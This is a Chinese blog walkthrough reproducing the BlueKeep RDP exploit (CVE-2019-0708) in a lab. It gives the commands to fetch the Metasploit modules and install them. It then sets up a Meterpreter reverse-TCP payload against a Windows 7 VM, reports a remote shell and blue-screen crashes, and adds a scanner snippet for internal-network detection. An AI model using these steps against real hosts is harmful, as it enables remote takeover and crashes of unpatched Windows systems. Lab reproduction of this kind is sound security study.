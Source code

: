 **目录**

[CVE-2019-0708](#t0 "CVE-2019-0708")

[漏洞背景](#t1 "漏洞背景")

[漏洞影响Windows版本](#t2 "漏洞影响Windows版本")

[复现环境](#t3 "复现环境")

[内网利用](#t4 "内网利用")

[探测](#t5 "探测")

* * *

CVE-2019-0708
-------------

### 漏洞背景

9.7号凌晨一点多，开发者 [@rapid7](https://github.com/rapid7 "@rapid7")  在[Github](https://so.csdn.net/so/search?q=Github&spm=1001.2101.3001.7020)上放出了windows远程桌面服务RCE漏洞(CVE-2019-0708)的exp。一大早醒来，朋友圈就被各大公司安全预警给刷了屏，趁着上午，立马把该exp复现了一波。

### **漏洞影响Windows版本**

*   Windows XP SP3 x86
*   Windows XP Professional x64 Edition SP2
*   Windows XP Embedded SP3 x86
*   Windows Server 2003 SP2 x86
*   Windows Server 2003 x64 Edition SP2
*   Windows 7 for 32-bit Systems Service Pack 1
*   Windows 7 for x64-based Systems Service Pack 1
*   Windows Server 2008 for 32-bit Systems Service Pack 2
*   Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
*   Windows Server 2008 for Itanium-Based Systems Service Pack 2
*   Windows Server 2008 for x64-based Systems Service Pack 2
*   Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
*   Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
*   Windows Server 2008 R2 for x64-based Systems Service Pack 1
*   Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
*   **Windows 8和Windows 10及之后版本的用户不受此漏洞影响。**

### **复现环境**

*   Kali：192.168.10.11
*   Win7(X64，SP1)：192.168.10.16
*   Windows Server 2008 SP2 DataCenter(X64)：192.168.10.15 （不在漏洞范围内）

首先，在Kali主机上下载相关的rb文件。

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb      
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb      
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb      
wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
```


![](https://img-blog.csdnimg.cn/20190907223959896.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后将这些主机文件复制到MSF的相应目录下(其实，主要的攻击文件只有一个：cve\_2019\_0708\_bluekeep\_rce.rb，其他几个文件可有可无)。

有可能你的MSF的目录不一样，这就需要你自己查找相应的目录。

```
正常的kali是下面这些命令，因为MSF是装在 /usr/share目录下      
cp rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/      
cp rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/      
cp cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/    #这里有可能提示不存在这个目录，我们去相应的目录下新建rdp文件夹即可      
cp cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/       
这里因为我的MSF是更新后的，装在 /opt 目录下，所以，我是下面这几个命令      
cp rdp.rb  /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit      
cp rdp_scanner.rb  /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner      1
cp cve_2019_0708_bluekeep_rce.rb   /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp  #这里有可能提示不存在这个目录，我们去相应的目录下新建rdp文件夹即可      1
cp cve_2019_0708_bluekeep.rb  /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp
```


![](https://img-blog.csdnimg.cn/20190907225020749.png)

进入MSF，重载模块：reload\_all

![](https://img-blog.csdnimg.cn/20190907225138772.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查找漏洞利用模块，进入模块

```
search 0708      
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```


![](https://img-blog.csdnimg.cn/20190907225251379.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查看targets

![](https://img-blog.csdnimg.cn/20190907231451761.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

设置参数

```
set payload windows/x64/meterpreter/reverse_tcp   #设置payload      
set rhosts 192.168.10.16             #目标机ip      
set lhost 192.168.10.11              #攻击机ip      
set rdp_client_ip 192.168.10.16      #目标机ip      
unset RDP_CLIENT_NAME                #取消设置这个参数      
set target 2    #这里我是vmware的虚拟机，按理来说target应该是设置为3，但是设置为3没打成功，设置为2打成功了
```


![](https://img-blog.csdnimg.cn/20190907230023693.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

攻击成功，成功拿到目标机反弹回来的shell。

![](https://img-blog.csdnimg.cn/2019090722585145.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

按照这个步骤，攻击Windows Server 2008R2蓝屏。看网上说貌似是要改注册表，需要修改注册表HKEY\_LOCAL\_MACHINE\\SYSTEM\\ControlSet001\\Control\\Terminal Server\\WinStations\\rdpwd\\fDisableCam 值修改为0。但是我的这个DataCenter的Server2008R2 没有这个注册表。而且好像貌似 DataCenter的Server 2008R2 并不在漏洞影响系统之内。所以打成蓝屏了。

![](https://img-blog.csdnimg.cn/20190907230625162.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

看了网上很多人的文章，也都是说打的蓝屏。总的来说，这个漏洞的质量并没有MS17\_010永恒之蓝的高，没打成就变成蓝屏了。而且利用起来貌似限制蛮多的。单核服务器上成功率约90%, 双核上 40-60%, 四核上10%，如果失败，目标系统会蓝屏。

内网利用
----

更新于MSF中已有该利用模块

![](https://img-blog.csdnimg.cn/20191218174503706.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 探测

```
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep      
set RDP_CLIENT_IP 10.8.13.25      
set RHOSTS 10.8.13.25      
run
```


### ![](https://img-blog.csdnimg.cn/20191218174629546.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[Add initial exploit for CVE-2019-0708, BlueKeep by bcook-r7 · Pull Request #12283 · rapid7/metasploit-framework · GitHub](https://github.com/rapid7/metasploit-framework/pull/12283?from=groupmessage&isappinstalled=0 "Add initial exploit for CVE-2019-0708, BlueKeep by bcook-r7 · Pull Request #12283 · rapid7/metasploit-framework · GitHub")

                  [CVE-2019-0708/1181/1182：Windows RDP服务蠕虫级漏洞修复指南(Version 3.0)](https://cert.360.cn/warning/detail?id=5f83e1c0f6f00f3fe001422e81a7a4da&from=timeline&isappinstalled=0 "CVE-2019-0708/1181/1182：Windows RDP服务蠕虫级漏洞修复指南(Version 3.0)")

             [【预警通告】Windows远程桌面服务远程代码执行漏洞（CVE-2019-0708）EXP披露预警](https://mp.weixin.qq.com/s?__biz=MzU3NTcxNjkwMg==&mid=2247484064&idx=1&sn=6747f649b75e65567ad7aeb28c68458b&chksm=fd1fa9e9ca6820ffd9688fdedd1a4194d6557729a8355dd5c2f0a9a7aa1c2ab7276268d6e8a2&mpshare=1&scene=1&srcid=&sharer_sharetime=1567870143810&sharer_shareid=a12f834461b510ae1828dcc9a9328315&key=ef0833248124bd9f953be80266a064518b8fb54fab9add1888a78143bca350dabbdc6b29a48fd52d780cf14de3b690ef5a4e284c464d38fd5e9a925d0cfbcc69599ce5db49876d69a931a47dd4027ad7&ascene=1&uin=MjIwMDQzNjQxOQ%3D%3D&devicetype=Windows+10&version=62060833&lang=zh_CN&pass_ticket=C1PFbwtLOtOoRDWOP5Nk3SLzuLTECT%2Fjoj3n7BTyzT0VVjUouJphKTTpRhJfxn7c "【预警通告】Windows远程桌面服务远程代码执行漏洞（CVE-2019-0708）EXP披露预警")